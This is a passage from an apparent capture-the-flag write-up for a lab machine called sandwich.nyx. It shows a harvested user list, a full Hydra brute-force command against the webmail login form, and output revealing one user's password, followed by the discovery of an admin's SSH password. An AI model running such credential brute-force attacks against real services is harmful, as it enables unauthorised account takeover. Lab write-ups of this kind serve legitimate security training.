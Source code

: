 We download a CSV file with all the sandwich configurations saved by all registered users. 📥 We use this list of users to perform fuzzing on the webmail.

Since we know that to register here it is necessary to have an email at `webmail.sandwich.nyx`, we attempt to brute force with these users and the `10k-most-common.txt` wordlist on the webmail.

List of users appearing in the PDF downloaded from `sandwich.nyx`. 📋

```text
ll104567_9q@sandwich.nyx
suraxddq_tw@sandwich.nyx
xerosec_w5@sandwich.nyx
j4ckie_x5@sandwich.nyx
matthygd_x@sandwich.nyx
```

Although the list of users seems to belong to illustrious hacking masters 😉, with all due respect, we decided to venture and use Hydra with the list of users and the wordlist against the webmail.

```bash
$ hydra -L users.txt -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt webmail.sandwich.nyx http-post-form "/login.php:email=^USER^&password=^PASS^:Invalid credentials or user not found" -u -t 64 -v
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-30 19:19:59
[DATA] max 64 tasks per 1 server, overall 64 tasks, 50000 login tries (l:5/p:10000), ~782 tries per task
[DATA] attacking http-post-form://webmail.sandwich.nyx:80/login.php:email=^USER^&password=^PASS^:Invalid credentials or user not found
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[STATUS] 1385.00 tries/min, 1385 tries in 00:01h, 48615 to do in 00:36h, 64 active
[STATUS] 1382.00 tries/min, 4146 tries in 00:03h, 45854 to do in 00:34h, 64 active
[STATUS] 1382.00 tries/min, 9674 tries in 00:07h, 40326 to do in 00:30h, 64 active
[VERBOSE] Page redirected to http[s]://webmail.sandwich.nyx:80/inbox.php
[80][http-post-form] host: webmail.sandwich.nyx   login: matthygd_x@sandwich.nyx   password: qweasd

The session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

After 7 minutes 😅, we found the password for the webmail of `matthygd_x@sandwich.nyx`.

We logged into the webmail and could see a message sent by the administrator with the password for their SSH user. 🔑

![alt text](../../assets/images/sandwich/image-5.png)
